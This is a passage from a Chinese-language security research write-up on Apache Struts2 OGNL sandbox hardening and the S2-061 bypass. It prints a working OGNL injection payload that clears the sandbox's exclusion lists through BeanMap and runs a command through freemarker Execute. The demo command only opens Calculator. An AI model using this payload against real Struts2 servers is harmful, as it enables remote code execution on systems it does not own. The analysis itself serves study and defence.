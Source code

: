<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296495.png" style="zoom:50%;" />

并且重写了这几个 set 方法中，不再单纯的生成新 set 并重新引用，而是将原始的 set 加上用户输入最终处理成 `Collections.unmodifiableSet()` 再进行赋值。此时我们将不能通过 `clear()` 或者 set 方法清空其中的值。

在 ognl 3.2.10 版本之后，删除了 DefaultMemberAccess 类，同时删除了静态变量DEFAULT_MEMBER_ACCESS，并且 _memberAccess 变成了 final。SecurityMemberAccess 不再继承DefaultMemberAccess 而直接转为 MemberAccess 接口的实现。因此我们不再能使用 DEFAULT_MEMBER_ACCESS 对象覆盖 _memberAccess。

在更高版本的 ognl 中，调用方法的 invokeMethod 方法中进行了判断，禁止调用了一些经常使用的恶意黑名单方法。

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296500.png" style="zoom:50%;" />


经过上述的安全更新之后，我们在 S2-057 以及之前绕过 Struts2 的的所有想法的策略基本都被禁掉了。因此想要执行恶意 OGNL 变得越来越难。


# S2-061

S2-061 是对 S2-059 沙盒进行的绕过。

> 影响版本：Struts 2.0.0 - Struts 2.5.25
> 参考链接：https://cwiki.apache.org/confluence/display/WW/S2-061
> 描述：依旧是由于标签中使用 `%{}` 导致的安全漏洞。

网络上流传了如下的 POC，说是可以用来绕过沙盒，我们来看一下：

```
%{
(#im=#application["org.apache.tomcat.InstanceManager"]).
(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).
(#bm=#im.newInstance("org.apache.commons.collections.BeanMap")).
(#bm.setBean(#stack)).
(#context=#bm.get("context")).
(#bm.setBean(#context)).
(#ma=#bm.get("memberAccess")).
(#bm.setBean(#ma)).
(#emptyset=#im.newInstance("java.util.HashSet")).
(#bm.put("excludedClasses",#emptyset)).
(#bm.put("excludedPackageNames",#emptyset)).
(#arglist=#im.newInstance("java.util.ArrayList")).
(#arglist.add("open -a Calculator.app").
(#execute=#im.newInstance("freemarker.template.utility.Execute")).
(#execute.exec(#arglist))
}
```

通过 POC 我们发现，这个利用方式是需要 Tomcat 的 InstanceManager 和 Commons-Collections 中的 BeanMap 依赖，也就是有条件的绕过，不再是像之前一样的通杀绕过沙盒。

这个版本的沙盒绕过思路，实际上是相当简单暴力，之前我们经历了若干个版本的攻与防，Struts2 官方通过黑名单、权限、类型的验证来限制我们执行恶意表达式，除了 OGNL 包里面方法调用时加的硬性限制之外，这些限制其实两个字就可以全都绕过：反射。

这就有点挖反序列化 gadget 的感觉了，POC 的具体分析[这篇文章](https://www.anquanke.com/post/id/225252)写的非常好，我这里就不再重复了，文中最后留的 POC 有下面两个：
